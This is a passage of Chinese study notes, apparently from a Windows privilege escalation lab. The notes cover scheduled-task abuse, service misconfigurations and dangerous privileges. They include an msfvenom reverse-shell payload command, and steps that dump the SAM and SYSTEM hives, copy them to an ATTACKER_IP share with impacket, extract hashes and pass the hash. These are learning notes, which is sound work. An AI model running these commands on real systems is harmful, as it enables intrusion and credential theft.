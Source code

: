 
    - 使用 `icacls` 查看权限, `F ` 代表完全访问权限
  
      ![schtask3](image/schtask3.jpg)
    - 修改文件，生成反向shell
  - 永久后门
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.219.15 LPORT=LOCAL_PORT -f msi -o malicious.msi`
- 滥用服务的错误配置
  - Windows Services
    - Windows Services是由服务控制管理器(SCM)管理, SCM 是一个负责根据需要管理服务状态、检查任何给定服务的当前状态并通常提供配置服务的方法的进程
    - 使用 `sc qc` 命令检查服务配置
      - 关联的可执行文件是通过**BINARY_PATH_NAME**参数指定
      - 用于运行服务的帐户显示在**SERVICE_START_NAME**参数上
  - 关联的可执行文件的不安全权限
    - `sc qc` 查看服务配置, 检查**BINARY_PATH_NAME**参数指定的可执行文件
    - `icacls` 查看可执行文件的权限
    - 若具有修改权限或者完全访问权限，则使用 payload 替换该可执行文件
    - 等待服务重启
    - 获得**SERVICE_START_NAME**参数标注用户的反向shell
  - 未加引号的服务路径
    - **BINARY_PATH_NAME**参数指定关联的可执行文件路径含有空格且未正确使用 `""` 引号
      ```
      例如
      BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
      当 SCM 尝试执行关联的二进制文件时，就会出现问题。由于“Disk Sorter Enterprise”文件夹的名称上有空格，因此该命令变得不明确，并且 SCM 不知道您正在尝试执行以下哪一个：
        C:\MyPrograms\Disk.exe (Sorter Enterprise\bin\disksrs.exe)
        C:\MyPrograms\Disk Sorter.exe (Enterprise\bin\disksrs.exe)
        C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
      ```
    - 则使用 payload 伪造路径上的可执行文件
  - 不安全的服务权限
    - 如果拥有修改服务本身的权限，可替换**SERVICE_START_NAME**参数为payload的路径
- 滥用的危险特权
  - 使用 `whoami /priv` 查询特权
    - `gpedit.msc` 组策略管理器
    - Disabled privileges are as good as enabled ones.(禁用和启用一样有用)
  - [可利用特权的完整列表](https://github.com/gtworek/Priv2Admin)
  - SeBackup 特权
    - SeBackup 特权使系统向任何文件授予所有读取访问控制权，而无需完全管理权限
    - 这种特权允许攻击者使用多种技术轻松提升系统权限。例如，复制 SAM 和 SYSTEM 注册表配置单元以提取本地管理员的密码哈希值
    - 流程
      1. 备份 SAM 和 SYSTEM 
        - 使用 `reg save hklm\system system.hive` 和 `reg save hklm\sam sam.hive`
      2. 使用任何方法把备份复制到攻击者本地, 举例使用 SMB 共享
        - 利用 impacket 工具包
          - `mkdir share`
          - `impacket-smbserver -smb2support -username USERNAME -password PASSWORD public share`
          - `copy sam.hive \\ATTACKER_IP\public\`
          - `copy system.hive \\ATTACKER_IP\public\`
      3. 利用 impacket 工具包检索用户密码 hash 值
        - `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
      4. 使用管理员的哈希来执行哈希传递攻击
        - `impacket-psexec -hashes HASH1:HASH2 administrator@MACHINE_IP`
  - SeRestore 特权
    - SeRestore 特权使系统向任何文件授予所有写取访问控制权，而无需完全管理权限
      1. Launch PowerShell/ISE with the SeRestore privilege present.
      2. Enable the privilege with Enable-SeRestorePrivilege.